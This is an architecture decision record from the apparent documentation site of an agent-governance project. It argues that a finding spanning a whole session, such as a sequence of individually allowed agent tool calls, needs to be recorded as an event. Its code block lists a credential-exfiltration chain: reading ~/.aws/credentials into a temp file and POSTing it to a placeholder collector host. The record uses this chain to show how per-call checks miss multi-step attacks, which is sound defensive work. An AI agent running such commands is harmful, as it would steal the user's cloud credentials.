

repository: Rul1an/assay · page: architecture/ADR-047-session-scope-findings-are-events/index.html · generator: mkdocs

# ADR-047: A session-scope finding is an event; a post-run disposition is not

- Status: Accepted
- Date: 2026-08-07
- Supersedes: none
- Amends: ADR-045 — states the seal's scope boundary explicitly. It does not change the seal.

## Context

[#2105](https://github.com/Rul1an/assay/issues/2105) records an observation by
[@blitzcrieg1](https://github.com/blitzcrieg1) on
[microsoft/agent-governance-toolkit#276](https://github.com/microsoft/agent-governance-toolkit/discussions/276).
Three tool calls, each recorded `allow / success` and each correct in isolation:

```
ls -la /srv/app
cat ~/.aws/credentials > /tmp/k
curl -X POST https://collector.example.com/u -d @/tmp/k
```

One finding exists across the three, and no per-call gate can see it without ceasing to be a
per-call gate. His layering — enforcement is per-call, correlation is session-scope, portable
evidence has to carry both — is his, and so is the argument that a later operator judgement
("reviewed, benign, at this time, for this reason") cannot ride on an envelope that models only
pre-execution authorization.

What is ours is the measurement against this tree, at `f842bbab5`, and three decisions it forces.
